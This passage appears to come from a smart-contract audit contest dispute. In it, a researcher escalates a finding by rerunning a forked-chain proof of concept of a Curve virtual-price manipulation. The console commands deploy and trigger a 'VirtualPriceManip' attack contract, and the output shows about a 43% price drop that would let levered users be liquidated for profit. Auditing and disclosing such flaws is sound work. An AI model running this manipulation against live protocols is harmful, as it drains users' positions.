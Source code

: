 More specifically a 43% loss of value, which would put at risk a sizeable group of normally levered users:
>>> 1006386728989215731 / 566156151085517748
1.777578018113242
>>> (1006386728989215731 - 566156151085517748) / 1006386728989215731 * 100
43.743678769080375

Also agree with my colleague that once the liquidation is successful, we can exit the re-entered state and then settle once the `POOL.D` is back to normal, allowing for some price impact (60BPS on estimate), but still profiting by a great margin

**sherlock-admin**

 > Escalate for 50 USDC.
> In solidarity to my colleague, I re-ran my POC with whale being set to [aWETH](https://arbiscan.io/address/0xe50fA9b3c56FfB159cB0FCA61F5c9D750e8128c8) and you can see that the price impact is closer to 50%
> 
> ```python
> >>> weth = Contract.from_explorer("0x82aF49447D8a07e3bd95BD0d56f35241523fBab1")
> whale = accounts.at("0xe50fA9b3c56FfB159cB0FCA61F5c9D750e8128c8", force=True)
> Fetching source of 0x82aF49447D8a07e3bd95BD0d56f35241523fBab1 from api.arbiscan.io...
> Fetching source of 0x8b194bEae1d3e0788A1a35173978001ACDFba668 from api.arbiscan.io...
> >>> weth.transfer(a[0], weth.balanceOf(whale), {"from": whale})
> weth.withdraw(weth.balanceOf(a[0]), {"from": a[0]})
> c = VirtualPriceManip.deploy({"from": a[0]})
> c.startAttack({"from": a[0], "value": a[0].balance() * 99 / 100})
> Transaction sent: 0x986059eea98f64537fc18f576080d9df04a3b1d14566f3f11106d1f443c2a62e
>   Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 1
>   TransparentUpgradeableProxy.transfer confirmed   Block: 45350953   Gas used: 39080 (0.20%)
> 
> Transaction sent: 0x3aa0e109cf7f7983b6c4123a8befacda921f93969c7f1185e9175d2ad9bfc44c
>   Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 0
>   TransparentUpgradeableProxy.withdraw confirmed   Block: 45350954   Gas used: 30937 (0.15%)
> 
> Transaction sent: 0xe4df2473de3a73a7a56b17cdf5acec0cd523f713fcfbbe80a40261f6519a74a3
>   Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 1
>   VirtualPriceManip.constructor confirmed   Block: 45350955   Gas used: 647058 (3.24%)
>   VirtualPriceManip deployed at: 0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6
> 
> Transaction sent: 0xa3f759c1c16dffa1dfdc90faceb384d37aa462de39d01dc73ec55ac909f2d27d
>   Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 2
>   VirtualPriceManip.startAttack confirmed   Block: 45350956   Gas used: 346696 (1.73%)
> 
> >>> history[-1].events
> {'Debug': [OrderedDict([('name', 'Virtual Price 1'), ('value', 1006386728989215731)]), OrderedDict([('name', 'fakeSentimentPrice 1'), ('value', 1006386728989215731)]), OrderedDict([('name', 'Virtual Price 3'), ('value', 1006460432180341199)]), OrderedDict([('name', 'fakeSentimentPrice 3'), ('value', 1006460432180341199)]), OrderedDict([('name', 'Virtual Price 5'), ('value', 566156151085517748)]), OrderedDict([('name', 'fakeSentimentPrice 5'), ('value', 566156151085517748)]), OrderedDict([('name', 'Virtual Price 6'), ('value', 1006460432180341199)]), OrderedDict([('name', 'fakeSentimentPrice 6'), ('value', 1006460432180341199)]), OrderedDict([('name', 'Msg.value'), ('value', 9242544511373299000000)]), OrderedDict([('name', 'This Balance'), ('value', 6887807551730873474275)]), OrderedDict([('name', 'Delta'), ('value', 2354736959642425525725)]), OrderedDict([('name', 'WstEthBalance'), ('value', 2124028976089901491510)])], 'Transfer': [OrderedDict([('_from', '0x0000000000000000000000000000000000000000'), ('_to', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('_value', 9136530630863310092133)]), OrderedDict([('from', '0x6eB2dc694eB516B16Dc9FBc678C60052BbdD7d80'), ('to', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('value', 2124028976089901491510)]), OrderedDict([('_from', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('_to', '0x0000000000000000000000000000000000000000'), ('_value', 9136530630863310092133)])], 'AddLiquidity': [OrderedDict([('provider', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('token_amounts', (9242544511373299000000, 0)), ('fees', (1143210375408757286, 1031913016221942347)), ('invariant', 15635314996650963717127), ('token_supply', 15533814948437161604759)])], 'RemoveLiquidity': [OrderedDict([('provider', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('token_amounts', (6887807551730873474275, 2124028976089901491510)), ('fees', (0, 0)), ('token_supply', 6397284317573851512626)])]}